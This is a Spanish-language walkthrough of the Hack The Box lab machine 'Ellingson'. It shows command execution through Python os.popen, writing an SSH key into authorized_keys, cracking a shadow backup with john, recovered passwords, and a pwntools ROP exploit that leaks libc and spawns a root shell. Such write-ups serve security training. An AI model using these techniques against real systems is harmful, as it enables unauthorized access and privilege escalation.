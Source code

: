 # Ellingson - Hack The Box Walkthrough

**IP:** 10.10.10.139

---

## 1. Inicial - Debug RCE en Artículos
```http
http://Ellingson.htb/articles/4
```
- Se encontró código ejecutable vía `os.popen()` en Python.

```python
os.popen("whoami").read()
```

---

## 2. Enumeración de Usuarios
```python
os.popen("ls -l /home").read()
```
- Usuarios: duke, hal, margo, theplague

---

## 3. SSH con clave pública
- Hal tiene acceso SSH.
- Se genera una clave con `ssh-keygen` y se sube con:
```python
echo 'clave_publica' > /home/hal/.ssh/authorized_keys
```

---

## 4. Acceso a /var/backups/shadow.bak
- Archivo legible por grupo `adm`, del cual hal es parte.
- Se usa `john` para crackear los hashes.
- Contraseña de `margo`: `passw$08`

---

## 5. SSH como margo
```bash
sshpass -p 'passw$08' ssh margo@ellingson.htb
```

---

## 6. Binary SUID `/usr/bin/garbage`
- Solicita contraseña: `N3veRF3@passw!` (obtenida vía ltrace)
```bash
/usr/bin/garbage
```

---

## 7. Ingeniería Reversa del binario
```bash
scp margo@Ellingson.htb:/usr/bin/garbage .
scp margo@Ellingson.htb:/lib/x86_64-linux-gnu/libc.so.6 .
```

```bash
checksec garbage
# NX: ENABLED
```

---

## 8. Explotación con ROP
- Se crea exploit en Python usando pwntools para:
  1. **Filtrar** dirección de `__libc_start_main`
  2. Calcular base de `libc`
  3. Ejecutar `/bin/sh` como root con `setuid(0)` y `system("/bin/sh")`

---

## 9. Exploit en Python
```python
r = ssh(host='ellingson.htb', user='margo', password='passw$08')
p = r.process('/usr/bin/garbage')

elf = ELF("./garbage")
libc = ELF("./libc.so.6")
rop = ROP(elf)

leak = leak(p, elf, libc, rop)
libc.address = leak - libc.sym["__libc_start_main"]

root_shell(p, elf, libc, rop)
```

---

✅ **Root access obtenido.**
